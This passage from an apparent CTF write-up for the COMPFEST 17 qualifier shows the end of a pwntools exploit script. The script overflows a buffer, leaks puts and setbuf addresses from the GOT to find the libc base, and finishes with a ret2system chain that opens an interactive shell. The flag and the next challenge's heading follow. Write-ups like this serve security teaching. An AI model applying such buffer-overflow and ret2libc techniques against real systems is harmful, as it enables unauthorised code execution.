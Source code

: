 ```python
        pop_rbp = nsa(elf, "pop rbp ; ret")
        sa("You do: ", b"A"*0x20 + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["puts"] + 0x20) + p64(elf.sym["start"] + 45))
        ru("party ")
        puts = u64(ru("DM").ljust(8, b"\x00"))
        target += 0x20
        sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["setbuf"] + 0x20) + p64(elf.sym["start"] + 45))
        ru("party ")
        setbuf = u64(ru("DM").ljust(8, b"\x00"))
        libc = ELF(find_libc({"puts": puts, "setbuf": setbuf}))
        libc.address = puts - libc.sym["puts"]
    leak("Puts", hex(puts))
    leak("Setbuf", hex(setbuf))
    leak("Libc base address", hex(libc.address))
    with log.progress("Ret2system"), context.silent:
        target += 0x20
        debug()
        sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + ret2system())
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{truly_evil_482d5b6803}`

# Pwn - All in

## Introduction 

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/Allin.png)
